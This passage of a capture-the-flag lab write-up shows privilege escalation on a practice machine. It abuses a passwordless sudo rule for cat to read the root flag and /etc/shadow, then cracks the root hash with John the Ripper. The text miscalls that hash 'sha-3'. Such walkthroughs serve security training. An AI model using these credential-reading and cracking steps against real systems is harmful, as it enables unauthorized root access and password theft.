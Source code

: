 We are in!

## 3. PrivEsc

```
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
john@bruteit:~$ sudo /bin/cat /root/root.txt
THM{hidden}
```
And we get the root flag!

How about the password?
```
john@bruteit:/$ cat /etc/shadow
cat: /etc/shadow: Permission denied
john@bruteit:/$ sudo cat /etc/shadow
root:{interesting_info_was_here}
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
...
```

We get the sha-3 hash and then crack using JtR again.

```
┌──(kali㉿kali)-[/tmp]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
{hidden}         (root)
1g 0:00:00:00 DONE (2021-06-09 02:30) 5.882g/s 4517p/s 4517c/s 4517C/s 123456..james1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

#### What is the root's password?
We can answer this using the above

#### root.txt
ditto

And we are done!
